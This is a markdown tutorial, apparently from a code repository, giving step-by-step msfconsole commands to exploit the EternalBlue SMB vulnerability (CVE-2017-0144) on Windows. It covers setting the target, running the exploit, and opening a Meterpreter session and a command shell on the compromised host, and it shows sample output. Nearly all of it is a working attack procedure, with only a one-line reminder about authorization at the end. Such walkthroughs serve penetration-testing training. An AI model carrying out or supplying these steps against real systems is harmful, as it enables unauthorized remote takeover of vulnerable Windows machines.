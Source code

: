 # Exploit Example with msfconsole: EternalBlue

## Description

EternalBlue is a remote code execution vulnerability in Microsoft's implementation of the SMB protocol. This exploit targets Windows operating systems vulnerable to CVE-2017-0144.

## Steps

1. **Launch msfconsole**:
   ```
   msfconsole
   ```

2. **Search for the EternalBlue exploit**:
   ```
   search eternalblue
   ```

3. **Select the exploit module**:
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **Set the required options**:
   ```
   set RHOSTS <target_ip>
   ```

   Replace `<target_ip>` with the IP address of the vulnerable Windows system.

5. **Review and set additional options**:
   ```
   show options
   ```

6. **Verify if the target is vulnerable**:
   ```
   check
   ```

7. **Launch the exploit**:
   ```
   exploit
   ```

8. **Wait for the exploit to complete**:
   ```
   [*] Sending stage (179779 bytes) to <target_ip>
   [*] Meterpreter session <session_id> opened (...)
   ```

   Once successful, you will have a Meterpreter session opened on the target system.

9. **Interact with the session**:
   ```
   sessions -i <session_id>
   ```

   Replace `<session_id>` with the ID of the Meterpreter session.

10. **Explore the compromised system**:
    ```
    sysinfo
    getuid
    shell
    ```

    These commands will give you information about the system, the current user, and allow you to interact with the command shell.

## Notes

- Ensure that you have proper authorization before exploiting any vulnerabilities.
- Verify the target and ensure that it is properly isolated from the rest of your network to prevent unintended consequences.
- This example demonstrates a specific exploit, but always keep in mind that the effectiveness of an exploit depends on various factors such as target configuration, network environment, and patch status.

